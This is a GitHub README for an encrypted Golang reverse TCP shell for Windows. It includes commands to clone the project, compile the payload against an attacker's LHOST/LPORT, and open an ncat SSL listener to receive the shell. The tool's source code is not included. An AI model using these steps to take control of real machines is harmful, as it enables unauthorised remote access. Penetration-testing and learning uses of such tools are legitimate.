



<div >
    
    
    <h1 align="center" > Go-Shell - Golang Reverse TCP Shell </h1>
</div>

## About

Windows 32/64 encrypted reverse TCP shell a simplified version inspirado in [hershell](https://github.com/lesnuages/hershell) which has a lot more features like cross compile to linux (check it out!).



## Features
- Encrypted
- Can compile to 32 or 64bit architecture
- Certificate fingerprint pinning 

## Why?

I just wanted to practice some coding and a reverse tcp shell for windows with encryption and no extra functionalities like meterpreter integration

## Usage

- Clone the repo to compile it and modify it (Make sure to have golang installed!)
```bash
git clone https://github.com/Alpharivs/go-shell.git
```
- Prepare and compile the payload
```bash
# Generate Certificates
make prepare
# Compile Shell 
make windows64/windows32 LHOST=[IP] LPORT=[PORT]
```
- Set up a listener with ncat or any tool that can handle incoming ssl connections
```bash
# Set up listener
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lnvp [PORT]
```
- execute !

- clean up
```bash
# Delete Certificates and shell
make clean
```
if you want a more in depth explanation of how it works check out [hershell](https://github.com/lesnuages/hershell).

<h2 align="center" > LVX-SIT</h2>
<h3 align="center" > MMDCCLXXV -- Ab urbe condita </h3>